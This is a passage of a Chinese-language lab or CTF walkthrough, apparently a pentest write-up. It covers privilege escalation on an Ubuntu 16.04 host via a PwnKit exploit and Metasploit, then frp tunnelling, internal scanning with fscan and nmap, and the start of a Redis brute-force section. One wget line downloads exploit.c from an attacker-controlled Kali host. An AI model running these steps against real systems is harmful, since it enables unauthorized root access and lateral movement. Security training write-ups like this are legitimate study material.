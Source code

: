 发现   
是ubuntu16.04 版本 ，  
  
提权exp ：https://github.com/luijait/PwnKit-Exploit  
  
使用wget进行下载。  
```
wget 192.168.10.128/home/kali/PwnKit-Exploit-main/exploit.c
```  
  
然后发现没有提权成功。  
### msf提权  
  
接着使用msf进行权限提升  
  
设置监听  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrm8HI98MfRPDRicQqEtIxYiceggcyGbmH6yv1ycKBT07KYJIfoPw7CzuKrlibs4VQhCBv4Q5UTQsDmg/640?wx_fmt=png&from=appmsg "")  
  
使用explot模块。然后进行提权。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrm8HI98MfRPDRicQqEtIxYicrUoONGarZlEMAK5EbrD0MBTODBjnQtFaaUvaSVG12vHjjib2k7vibDGA/640?wx_fmt=png&from=appmsg "")  
  
成功获取root权限。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrm8HI98MfRPDRicQqEtIxYic9793BwMxQD4BMv9jibQLJlRbjf8F3WCmVowCfzPoeG17GnEU9guXAbw/640?wx_fmt=png&from=appmsg "")  
  
然后接着查看路由信息。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrm8HI98MfRPDRicQqEtIxYica4OjL7rRkGD9VNGRdkDKiby33FZRHXeQLHzO3DmpzXOqsnsHXiaHnxNQ/640?wx_fmt=png&from=appmsg "")  
## 搭建代理  
  
使用frp+msf进行隧道搭建。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrm8HI98MfRPDRicQqEtIxYic3jnicicric4uJ85MIRsicS2Yia9cW4loibic3LdQ4TxIuQCBuoxuVzpyZuGsQ/640?wx_fmt=png&from=appmsg "")  
  
设置代理地址。![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrm8HI98MfRPDRicQqEtIxYic0oEcv9ZAnjxfG2y4ufIRN3Iqszpc5kkvfH1LlpTl02qTvRrXulkKjw/640?wx_fmt=png&from=appmsg "")  
  
## 内网信息收集  
### fscan扫描  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrm8HI98MfRPDRicQqEtIxYiczicv3KiartSzH3EPmnm8E07BDazefsrkvRW4hsGunlDnZOkWyLQXe8Sw/640?wx_fmt=png&from=appmsg "")  
  
使用nmap进行扫描，发现存在6379和8080端口开放。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrm8HI98MfRPDRicQqEtIxYic1kG89ggmj9iaSfwzETXCxts0KuOJR23nvFibibmRBSHYzZJv7Icgr5RaQ/640?wx_fmt=png&from=appmsg "")  
  
访问8080端口  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrm8HI98MfRPDRicQqEtIxYicASVNjce3pq8ibyYLOwKH7WEkRf31Km6p9WvUPU9QemN69NP3qM9dnibQ/640?wx_fmt=png&from=appmsg "")  
### redis未授权访问密码爆破  
  